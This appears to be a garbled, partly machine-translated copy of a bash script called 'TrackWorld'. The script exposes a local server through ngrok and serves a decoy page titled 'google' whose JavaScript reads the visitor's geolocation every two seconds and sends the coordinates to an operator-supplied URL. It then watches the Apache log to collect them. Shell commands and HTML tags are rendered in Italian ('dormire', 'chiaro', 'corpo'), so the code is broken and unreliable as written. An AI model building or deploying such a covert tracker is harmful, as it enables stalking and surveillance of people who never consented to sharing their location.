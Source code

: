 # TrackWorld
#! / bin / bash

# 64-bit
# xterm -e ./ngrok_64 http 80 e chiaro

# 32-bit
xterm -e ./ngrok http 80 e chiaro


echo  "             ______________________________________________________
                                  Anonymo0001
dormire 5
read -p 'URL:' varurl
echo " < ! DOCTYPE html >
< html >
   < capo >
      < title > google < / title >
      < style type = \ " text / css \" >
         corpo {
         background-image: url ( \ " mondo.jpg \" ) ;
         dimensione di sfondo: 1000px 1600px ;
         background-repeat: no-repeat ;
         }
      < / style >
   < / head >
   < corpo >
      < script src = \ " https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js \" > </ script >
      < script >
         function  httpGet (theUrl) {
             var xmlHttp = new XMLHttpRequest ();
             xmlHttp.open ( \ " GET \" , theUrl, false ) ; // false  per la richiesta sincrona
             xmlHttp.send (null) ;
             return xmlHttp.responseText ;
         }

         function  autoUpdate () {
           navigator.geolocation.getCurrentPosition (function (position) {
             coords = position.coords.latitude + \ " , \" + position.coords.longitude ;
              url = \ " " $ varurl " / logme / \" + coords ;
             httpGet (url) ;
             console.log ( ' dovrebbe funzionare ' ) ;
             setTimeout (autoUpdate, 2000) ;
         })
         };
         \ $ (document) .ready (function () {
            autoUpdate ();
         }) ;
      < / script >
   < / body >
< / html > " > index.html
mv index.html /var/www/html/index.html
cp mondo.jpg /var/www/html/mondo.jpg
servizio apache2 start
echo "          ______________________________________________________
                                   Anonymo0001
                                                                  " > /var/log/apache2/access.log
xterm -e tail -f /var/log/apache2/access.log &
chiaro
Uscita
